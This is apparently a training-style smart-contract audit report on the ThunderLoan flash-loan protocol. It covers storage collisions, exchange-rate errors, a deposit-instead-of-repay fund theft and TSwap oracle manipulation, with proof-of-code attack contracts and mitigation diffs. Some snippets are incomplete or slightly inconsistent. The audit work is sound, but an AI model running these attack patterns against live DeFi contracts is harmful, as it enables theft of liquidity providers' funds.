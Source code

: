 ## Highs


### [H-1] Erroneous `ThunderLoan::updateExchangeRate` in the `deposit` function causes protocol to think it it has more fees than it than it really does, which blocks redemption and incorrectly sets the exchange rate

**Description:** In the ThunderLoan system, the `exchangeRate` is responsbile for calculating the exchange rate between assetTokens and underlying tokens. In a way, its responsible for keeping track of how many fees to give to liquidity providers.

However, the `deposit` function, updates this rate, without collecting any fees!

```javascript
function deposit(IERC20 token, uint256 amount) external revertIfZero(amount) revertIfNotAllowedToken(token) {
        AssetToken assetToken = s_tokenToAssetToken[token];
        uint256 exchangeRate = assetToken.getExchangeRate();
        uint256 mintAmount = (amount * assetToken.EXCHANGE_RATE_PRECISION()) / exchangeRate;

        emit Deposit(msg.sender, token, amount);

        assetToken.mint(msg.sender, mintAmount);

@>        uint256 calculatedFee = getCalculatedFee(token, amount);
@>        assetToken.updateExchangeRate(calculatedFee);

        token.safeTransferFrom(msg.sender, address(assetToken), amount);
    }
```

**Impact:** There are several impacts to this bug.

1. The `redeem` function is blocked, because the protocol thinks the owed tokens are more than the actual tokens in the protocol.
2. Rewards are incorrectly calculated, leading to liquidity providers potentially getting way more or less than deserved.

**Proof of Concept:**

1. LP deposits
2. User takes out a flash loan
3. It is not impossible for LP to redeem.

<details>
<summary>Proof Of Code</summary>

Place the following into `ThunderLoanTest.t.sol`

```javascript
 function testRedeemAfterLoan() public setAllowedToken hasDeposits {
        uint256 amountToBorrow = AMOUNT * 10;
        uint256 calculatedFee = thunderLoan.getCalculatedFee(tokenA, amountToBorrow);
        vm.startPrank(user);
        tokenA.mint(address(mockFlashLoanReceiver), calculatedFee);
        thunderLoan.flashloan(address(mockFlashLoanReceiver), tokenA, amountToBorrow, "");
        vm.stopPrank();

        uint256 amountToRedeem = type(uint256).max;
        vm.startPrank(liquidityProvider);
        thunderLoan.redeem(tokenA, amountToRedeem);
    }
```

</details>

**Recommended Mitigation:** Remove the incorrectly updated exchange rate lines from `deposit`.

```diff
function deposit(IERC20 token, uint256 amount) external revertIfZero(amount) revertIfNotAllowedToken(token) {
        AssetToken assetToken = s_tokenToAssetToken[token];
        uint256 exchangeRate = assetToken.getExchangeRate();
        uint256 mintAmount = (amount * assetToken.EXCHANGE_RATE_PRECISION()) / exchangeRate;

        emit Deposit(msg.sender, token, amount);

        assetToken.mint(msg.sender, mintAmount);

-        uint256 calculatedFee = getCalculatedFee(token, amount);
-        assetToken.updateExchangeRate(calculatedFee);

        token.safeTransferFrom(msg.sender, address(assetToken), amount);
    }
```

### [H-2] A user can bypass the `ThunderLoan::repay` function and repay a flashloan by calling `ThunderLoan::deposit` which would increase a users liquidity balance and repay his flash loan at the same time, allowing this user to then withdraw liquidity and steal funds.

**Description:** When a user calls the `ThunderLoan::flashLoan` function, they must repay their flashLoan, but the way that is checked is through checking the balance of the token that is loaned in its respective liquidity pool, or `AssetToken` contract. When you call the `ThunderLoan::deposit` function, you also send funds to the `AssetToken` liquidity pool contract, but now you have funds to your name that you can withdraw later on using `ThunderLoan::redeem`. So if you take a flash loan by calling `ThunderLoan::flashLoan` and then you call `ThunderLoan::deposit` using the funds from that flash loan, you are able to hit two birds with one stone, you pay off the flash loan, AND you have liquidity to your name in the `AssetToken` liquidity pool contract that you are allowed to withdraw whenever you want!

**Impact:** The protocol will lose all of its funds to a hacker.

**Proof of Concept:**

The following steps can be taken to preform this attack.

1. User takes a flash loan from `ThunderLoan` for 100 `tokenA`. 

2. The user calls `ThunderLoan::deposit` with 100 `tokenA` and some extra `tokenA` to account for fees. This action pays back the debt and puts some liquidity to the user's name.

3. In a different transaction/block the user calls `ThunderLoan::redeem` and receives the 100 `tokenA` plus some fees he also deposited through step #2 and any additional fees that were collected from other people taking flashloans through `ThunderLoan`. 

```javascript
    function flashloan( ... ){
    .
    .
    .
@>    uint256 endingBalance = token.balanceOf(address(assetToken));
@>        if (endingBalance < startingBalance + fee) {
            revert ThunderLoan__NotPaidBack(startingBalance + fee, endingBalance);
        }
    }
```

**Proof of Code:**

<details>

Add the following function and contract to your unit test's.

```solidity

function testUseDepositInsteadOfRepay() public setAllowedToken hasDeposits {
        vm.startPrank(user);
        uint256 amountToBorrow = 50e18;
        uint256 fee = thunderLoan.getCalculatedFee(tokenA, amountToBorrow);
        DepositOverRepay dor = DepositOverRepay(address(thunderLoan));
        tokenA.mint(address(dor), fee);
        thunderLoan.flashloan(address(dor), tokenA, amountToBorrow, "");
        dor.redeemMoney();
        vm.stopPrank();
        
        assert(tokenA.balanceOf(address(dor)) > 50e18 + fee );
    }

contract DepositOverRepay is IFlashLoanReceiver {
    ThunderLoan thunderLoan;
    AssetToken assetToken;
    IERC20 s_token;
    // We want this contract to do the following things:
    // 1. Swap TokenA borrowed for WETH
    // 2. Take out ANOTHER flash loan, to show the difference

    constructor(address _thunderLoan) {
        thunderLoan = ThunderLoan(_thunderLoan);
    }

    function executeOperation(
        address token,
        uint256 amount,
        uint256 fee,
        address, /*initiator*/ // we dont care about either of those params
        bytes calldata /*params*/
    )
        external
        returns (bool)
    {
        s_token = IERC20(token);
        assetToken = thunderLoan.getAssetFromToken(IERC20(token));
        IERC20(tokenA).approve(address(thunderLoan), amount + fee);
        thunderLoan.deposit(IERC20(token), amount + fee);
        return true;
    }

    function redeemMoney() public {
        uint256 amount = assetToken.balanceOf(address(this));
        thunderLoan.redeem(address(s_token), amount);
    }

}

```
</details>


**Recommended Mitigation:** Add the following code in `ThunderLoan::deposit` to prevent this attack vector.

```diff

contract ThunderLoan is Initializable, OwnableUpgradeable, UUPSUpgradeable, OracleUpgradeable {
    error ThunderLoan__NotAllowedToken(IERC20 token);
    error ThunderLoan__CantBeZero();
    error ThunderLoan__NotPaidBack(uint256 expectedEndingBalance, uint256 endingBalance);
    error ThunderLoan__NotEnoughTokenBalance(uint256 startingBalance, uint256 amount);
    error ThunderLoan__CallerIsNotContract();
    error ThunderLoan__AlreadyAllowed();
    error ThunderLoan__ExhangeRateCanOnlyIncrease();
    error ThunderLoan__NotCurrentlyFlashLoaning();
    error ThunderLoan__BadNewFee();
+   error ThunderLoan__NotCurrentlyFlashLoaning();

function deposit(IERC20 token, uint256 amount) external revertIfZero(amount) revertIfNotAllowedToken(token) {
+       if(s_currentlyFlashLoaning[token]){
+           revert ThunderLoan__NotCurrentlyFlashLoaning();
+}
        AssetToken assetToken = s_tokenToAssetToken[token];
        uint256 exchangeRate = assetToken.getExchangeRate();
        .
        .
        .
        }
```
### [H-3] Mixing up variable location causes storage collisions in `ThunderLoan::s_flashLoan` and `ThunderLoan::s_currentlyFlashLoaning`, freezing protocol.

**Description:** `ThunderLoan.sol` has two variables in the following order:

```solidity
    uint256 private s_feePrecision; 
    uint256 private s_flashLoanFee;
```

However, the upgraded contract `ThunderLoanUpgraded.sol` has them in a different order: 

```solidity
    uint256 private s_flashLoanFee; // 0.3% ETH fee
    uint256 public constant FEE_PRECISION = 1e18;
```

Due to how Solidity storage works, after the upgrade the `s_flashLoanFee` will have the value of `s_feePrecision`. You cannot adjust the position of storage variables, and removing storage variables for constant variables, breaks the storage locations as well.

**Impact:** After the upgrade, the `s_flashLoanFee` will have the value of `s_feePrecision`. This means that users who take out flash loans right after an upgrade will be charged the wrong fee.

More importantly, the `s_currentlyFlashLoaning` mapping with storage is also in the wrong storage slot.

**Proof of Concept:**


<details>
<summary> PoC</summary>  

Place the following into `ThunderLoanTest.t.sol`.

```solidity
import { ThunderLoanUpgraded } from "../../src/upgradedProtocol/ThunderLoanUpgraded.sol";
.
.
.


```

You can also see the storage layout difference by running `forge inspect ThunderLoan storage` and `forge inspect ThunderLoanUpgraded storage`

</details>


**Recommended Mitigation:** If you must remove the storage variable, leave it as blank as to not mess up the storage slots.

```diff
+uint256 private s_emptyStorage;
uint256 private s_flashLoanFee; // 0.3% ETH fee
uint256 public constant FEE_PRECISION = 1e18;
```

## Mediums

### [M-1] Using TSwap as a price oracle, leads to price and oracle manipulation attacks, which lead to lower fee costs than expected.

**Description:** The TSwap protocol is a constant product formula based AMM (automated market maker). And this type of protocol derives the price of an asset from the ratio of one asset to another in a liquidity pool. Becuase of this fact, if a user takes a huge flash loan, and buys out a large supply of an asset from one of those liquidity pools, he can manipulate the price of the other asset in the liquidity pool, to make it very cheap int this example, and effectively ignore protocol fees.

**Impact:** Liquidity provider for the ThunderLoan protocol will lose out on a lot of fees for providing liquidity.

**Proof of Concept:**

The following all happens in 1 transaction.

1. User takes a flash loan from `ThunderLoan` for 100 `tokenA`. They are charged the intial normal fee.

2. Then, they deposit the 100 `tokenA` into the TSwap protocol for weth, which increases the supply of `tokenA` in that pool, and decreases the price of `tokenA` (for example, 1 tokenA = 1 weth before, now 1 tokenA = 0.1 weth.) 

3. Then the user takes another flash loan of 100 `tokenA` and calcuates the fee associated with this second loan. This fee will be cheaper than the intial fee.

4. Pay back the second loan with the extra fee that is lower than the intital fee.

5. Pay back the first loan with the intital fee.

```javascript
function getPriceInWeth(address token) public view returns (uint256) {
        address swapPoolOfToken = IPoolFactory(s_poolFactory).getPool(token);
@>        return ITSwapPool(swapPoolOfToken).getPriceOfOnePoolTokenInWeth();
    }
```
**Proof of Code:**

<details>

Add the following function and contract to your unit test's.

```javascript
function testOracleManipulation() public {
        //1. First set up new contracts
        thunderLoan = new ThunderLoan();
        tokenA = new ERC20Mock();
        // Here we are giving the proxy an implementation address of the logic contract.
        proxy = new ERC1967Proxy(address(thunderLoan), "");
        BuffMockPoolFactory pf = new BuffMockPoolFactory(address(weth));
        // Creating a TSwap DEX for Weth/Token A
        address tswapPool = pf.createPool(address(tokenA));
        thunderLoan = ThunderLoan(address(proxy));
        thunderLoan.initialize(address(pf)); // Initilizing the ThunderLoan contract with the Pool Factory address.
        // 2. Fund TSwap
        // First play the role of the liquidity provider and deposit liquidity.
        vm.startPrank(liquidityProvider);
        tokenA.mint(liquidityProvider, 100e18);
        tokenA.approve(address(tswapPool), 100e18);
        weth.mint(liquidityProvider, 100e18);
        weth.approve(address(tswapPool), 100e18);
        // Deposit Liquidity into TSWAP (not thunderloan) using a liquidity providers
        BuffMockTSwap(tswapPool).deposit(100e18, 100e18, 100e18, block.timestamp);
        // Ratio of Liquidity pool is 100Weth to 100 Token A
        // Price of Token A is 1 Weth
        // 1:1
        vm.stopPrank(); //Stop playing the role of the Liquidity provider
        // Allow token A on thunderloan with owner account
        vm.prank(thunderLoan.owner());
        thunderLoan.setAllowedToken(tokenA, true);
        // 3. Fund ThunderLoan
        // Deposit liquidity into THUNDERLOAN (not TSWAP)
        vm.startPrank(liquidityProvider);
        tokenA.mint(liquidityProvider, 1000e18);
        tokenA.approve(address(thunderLoan), 1000e18);
        thunderLoan.deposit(tokenA, 1000e18);
        vm.stopPrank();

        // Now we have the following balances in the two contracts:
        // TSWAP: 100 Weth, 100 Token A. (Price of Token A is 1 Weth)
        // ThunderLoan: 1000 Token A

        // To manipulate the price of Token A on TSwap, we will do the following:
        // 1. Take a 50 token A flash loan from ThunderLoan
        // 2. Swap the 50 AToken's for Weth on Tswap. (Now the supply of Token A on tswap is 150 which decreases the
        // price.)
        // 3. Take ANOTHER flash loan of 50 Token A from ThunderLoan, and will be cheaper
        // because according to the Tswap oracle, you have a ~80/150 ratio of Weth to Token A
        // means the price of Token A is around 0.5 Weth, and the fee will be cheaper.

        // Get the fee for a normal flash loan of 50 A Token's.
        uint256 normalFeeCost = thunderLoan.getCalculatedFee(tokenA, 100e18);
        console2.log("Normal fee before price manipulation", normalFeeCost);
        // 0.296147410319118389

        uint256 amountToBorrow = 50e18; // Amount of Token A to flashLoan                                                             //
            // mapping for USDC -> USDC asset token for LP's
        MaliciousFlashLoanReceiver flr = new MaliciousFlashLoanReceiver(
            address(tswapPool), address(thunderLoan), address(thunderLoan.getAssetFromToken(tokenA))
        );

        // 4. We are going to take out 2 flash loans
        //     a. We will do this to first manipulate the price of token A on the TSwap Dex
        //     b. To show that doing so greatly reduces the fees we pay on ThunderLoan
        vm.startPrank(user);
        tokenA.mint(address(flr), 100e18);
        thunderLoan.flashloan(address(flr), tokenA, amountToBorrow, "");
        vm.stopPrank();

        uint256 attackFee = flr.feeOne() + flr.feeTwo();
        console2.log("Attack Fee is: ", attackFee);
        console2.log("Normal Fee is: ", normalFeeCost);
        assert(attackFee < normalFeeCost);
    }


contract MaliciousFlashLoanReceiver is IFlashLoanReceiver {
    ThunderLoan thunderLoan;
    address repayAddress;
    BuffMockTSwap tswapPool;
    bool attacked;
    uint256 public feeOne;
    uint256 public feeTwo;
    // We want this contract to do the following things:
    // 1. Swap TokenA borrowed for WETH
    // 2. Take out ANOTHER flash loan, to show the difference

    constructor(address _tswapPool, address _thunderLoan, address _repayAddress) {
        tswapPool = BuffMockTSwap(_tswapPool);
        thunderLoan = ThunderLoan(_thunderLoan);
        repayAddress = _repayAddress;
    }

    function executeOperation(
        address token,
        uint256 amount,
        uint256 fee,
        address, /*initiator*/ // we dont care about either of those params
        bytes calldata /*params*/
    )
        external
        returns (bool)
    {
        if (!attacked) {
            // 1. Swap TokenA borrowed for WETH
            // 2. Take out ANOTHER flash loan, to show the difference
            feeOne = fee;
            attacked = true;
            // arg1 : The amount of Token A you want to swap
            // arg2 : Current reserve of Token A in the pool.
            // arg3 : Current reserve of WETH in the pool.
            // Returns: Compute's the expected WETH output for swapping 50 Token A
            uint256 wethBought = tswapPool.getOutputAmountBasedOnInput(50e18, 100e18, 100e18);
            IERC20(token).approve(address(tswapPool), 50e18);
            // arg1 Amount of TokenA to exchange for weth
            // arg2 Slippage minimum to avoid getting a bad deal
            // arg3 deadline for txn
            // This does the swap and will TANK the price!
            tswapPool.swapPoolTokenForWethBasedOnInputPoolToken(50e18, wethBought, block.timestamp);
            // Now we have a lot of Token A
            // And minimum weth
            // so 1 weth used to be 10 token A
            // but now 1 weth is like 50 token A

            // Second Flash Loan!
            // this will call executeOperation, except attacked is true.
            thunderLoan.flashloan(address(this), IERC20(token), amount, "");
            // repay first loan
            // IERC20(token).approve(address(thunderLoan), amount + fee);
            // thunderLoan.repay(IERC20(token), amount + fee);
            IERC20(token).transfer(address(repayAddress), amount + fee);
        } else {
            // calculate the fee
            feeTwo = fee;
            // now repay second loan (THE TRANSFER BELOW RUNS BEFORE THE TRANSFER ABOVE)
            // IERC20(token).approve(address(thunderLoan), amount + fee);
            // thunderLoan.repay(IERC20(token), amount + fee);
            IERC20(token).transfer(address(repayAddress), amount + fee);
        }
        return true;
    }
}
```
</details>


**Recommended Mitigation:** Instead of using the TSwap protocol as a price oracle, consider using a Chainlink Price feed with a Uniswap TWAP (Time-Weighted Average Price) fallback oracle for price info. (A fallback oracle is a backup mechanism if the primary oracle fails or is unavailable.)


